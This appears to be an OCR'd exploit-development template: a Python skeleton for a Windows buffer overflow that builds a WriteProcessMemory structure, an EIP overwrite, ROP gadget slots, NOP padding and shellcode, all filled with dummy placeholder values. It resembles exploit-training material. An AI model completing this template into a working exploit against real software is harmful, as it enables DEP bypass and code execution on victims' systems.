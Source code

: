 - WPM Structure for loading parameters, with dummy values
- Offset is added to overflow the buffer
- EIP placeholder is added to control EIP overwrite
- ROP is added as placeholder for our ROP chain
- NOP padding is added before our shellcode
- Shellcode placeholder is also added

```python

## Bad chars: 
## EIP Overwrite Address:
## DLLBase Address: 
## EIP Overwrite Size:

 
###################
## WPM STRUCTURE ##
###################
		# BOOL WriteProcessMemory(
    #   HANDLE  hProcess,
    #   LPVOID  lpBaseAddress,
    #   LPCVOID lpBuffer,
    #   SIZE_T  nSize,
    #   SIZE_T  *lpNumberOfBytesWritten
    # );
   
va  = pack("<L", (0x41414141))  # WriteProcessMemory address
va += pack("<L", (0x42424242))  # shellcode return address to return to after WriteProcessMemory is called
va += pack("<L", (0xffffffff))  # hProcess (pseudo Process handle)
va += pack("<L", (0x44444444))  # lpBaseAddress (Code cave address)
va += pack("<L", (0x45454545))  # lpBuffer (shellcode address)
va += pack("<L", (0x46464646))  # nSize (size of shellcode)
va += pack("<L", (0x47474747))  # lpNumberOfBytesWritten (writable memory address, i.e. !dh -a MODULE)

###################
##    OVERFLOW   ##
###################
# Offset until EIP overflow
offset = b"A" * (0 - len(va))

###################
## EIP Overwrite ##
###################
#W e ocontrol EIP overwrite  
eip = pack("<L", (0x90909090)) #  DESCRIPTION

###################
##  ROP Gadgets  ##
###################
rop = pack("<L", (0x90909090)) #  DESCRIPTION
rop += pack("<L", (0x90909090)) #  DESCRIPTION

#####################
## NOP & Shellcode ##
#####################
# NOP Padding before shellcode, adjust as needed
rop += b"\x90" * (000 - len(offset) - len(eip))

#Shellcode placeholder at around 450 bytes size
shellc = b"\xCC" * 450

inputbuffer = offset + va + eip + rop + shellc
```